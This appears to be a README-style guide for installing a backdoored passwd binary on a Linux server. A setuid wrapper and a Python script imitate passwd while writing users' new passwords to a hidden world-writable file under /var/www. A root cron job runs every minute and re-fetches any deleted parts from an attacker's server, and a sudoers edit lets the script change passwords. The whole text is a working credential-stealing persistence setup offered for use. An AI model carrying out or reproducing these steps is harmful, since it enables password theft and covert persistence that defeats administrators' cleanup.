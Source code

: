 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/... ; chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.
:q!

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd ; chmod 4755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd ; chmod 755 /usr/bin/zpasswd`

Now this is all great, but what if they find parts and starting deleting it? Well first they've kind of screwed theirself unless they find the passwd.orig binary. We want our backdoor to keep running, so we can use a bash script in root's crontab to check if our `passwd`, `zpasswd`, and `...` files are still there.

In the check-schedule script, you will need to define your external server hosting all the files, change the `SERVERIP` variable to your server's IP.

We will need to make our check-schedule script executable as well as check the permissions are correct

`chmod +x check-schedule ; chmod 755 check-schedule`

Next, we will want to move it into /usr/bin/ and add an entry in root's crontab

`crontab -e`

`*/1 * * * * /usr/bin/check-schedule`

This will go off every minute and check if our files exist, if not either create them or download them and put them where they need to be with the correct ownership and permissions. It will also add a timestamped line to ... of what happened (Downloaded zpasswd, Created ..., etc.)

The last part that you have to do because I have not found a way to get around it, is that you must add a Cmnd_Alias in the `/etc/sudoers` file so that when the new username/password is passed to chpasswd, they will not have to enter their password to do sudo and run chpasswd.

This can be done by typing `visudo` and going down to the Cmnd_Alias section, and adding the line:

`Cmnd_Alias CHPASSWD=/usr/bin/chpasswd`

and saving it.

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user. If they delete either `...`, `zpasswd`, or `passwd` the check-schedule script will fix it. 
